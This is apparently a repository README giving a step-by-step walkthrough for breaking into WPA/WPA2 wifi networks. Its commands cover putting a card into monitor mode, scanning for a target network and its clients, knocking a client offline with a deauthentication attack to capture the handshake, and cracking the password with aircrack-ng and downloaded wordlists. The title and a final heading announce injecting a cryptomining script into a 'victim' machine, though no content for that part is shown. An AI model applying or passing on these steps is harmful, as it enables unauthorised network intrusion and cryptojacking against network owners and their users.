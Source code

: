 # Gaining access to WPA/WPA2 with short/easy password and inject mining script to Unix victim
Part 1. Gaining access to WIFI:
1. Install kali
2. Buy and hook a NIC (I used alfa awus036neh) that can use monitor mode to VM (assuming your interface name is wlan0)
``` 
ifconfig wlan0 down && iwconfig wlan0 mode monitor && ifconfig wlan0 up
OR
airmon-ng start wlan0
```
3. Sniff the environment for victim WIFI and capture bssid of target WIFI (Assuming target bssid is BSSID channel C)
```
airodump-ng wlan0
```
4. Sniff the MAC address of clients connected to it (Assuming target mac is MAC) 
```
airodump-ng --bssid BSSID --channel C --write output wlan0 
```
5. Get the handshake traffic. WPA/WPA2 is more secure than WEP so need to capture WPA/WPA2 handshake traffic since it contains Message Integrity Code (MIC) sent from client during handshake. To get the handshake traffic, use deauthentication attack to kick a currently connected client offline and capture it’s traffic when it reconnects.
```
aireplay --deauth 0 -a BSSID -c MAC wlan0
```
6. Crack the password.
   Get a wordlist. Two approaches for this part. (Assuming wordlist file is wl.txt)a. Downloaded wordlists from https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Lengthb. Generated my custom wordlist. Since when I am attacking my own wifi, I have some information about the password pattern and it makes the process easier. In real world this process is done by social engineering.6b. Then compare it with locally generated MIC from password from wordlist to find the correct password. 
```
aircrack-ng output-01.cap -w wl.txt
```
Part 2. Injecting malicious script to victim machine.

